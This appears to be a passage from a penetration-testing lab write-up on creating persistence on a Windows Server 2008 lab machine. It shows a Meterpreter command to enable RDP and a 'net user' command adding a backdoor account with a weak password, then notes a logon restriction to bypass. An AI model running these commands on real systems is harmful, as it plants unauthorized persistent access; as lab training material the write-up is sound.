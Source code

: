 ### 3.1 Creating Persistence through Account Creation Backdoor
1. With a Meterpreter connection to the Win2k8 Lab machine, execute following command to enable RDP port: `run post/windows/manage/enable_rdp` 
2. Create a `shell` and run `net user pentester password1 /add` to create a user 'pentester' with 'password1' as the login pass 

![Creating-Persistence-backdoor](Creating-Persistence-backdoor.png)

![Windows-Server-2008](Windows-Server-2008.png)

3. When trying to connect using the Rdesktop tool to log into the account created I come across an error message for configuring allow log on for the user !! Try to find a bypass for RDP new member Allow log on through Terminal Services, check if the payload has been created !

![Remote-log-error](Remote-log-error.png)